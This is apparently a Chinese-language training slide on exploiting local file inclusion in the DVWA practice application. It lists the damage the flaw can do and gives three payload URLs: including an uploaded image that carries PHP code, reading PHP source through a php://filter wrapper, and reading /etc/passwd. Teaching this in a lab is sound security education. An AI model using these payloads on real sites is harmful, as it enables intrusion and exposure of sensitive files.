

# 本地文件包含漏洞利用方式
漏洞危害：
执行任意代码
包含恶意文件控制网站
甚至控制服务器
上传带有PHP代码的图片
http://mydvwa.com/dvwa/vulnerabilities/fi/?page=../../../a.jpg
读取PHP文件
http://mydvwa.com/dvwa/vulnerabilities/fi/?page=php://filter/read=convert.base64-encode/resource=../../../a.php
读取系统敏感文件
http://mydvwa.com/dvwa/vulnerabilities/fi/?page=/etc/passwd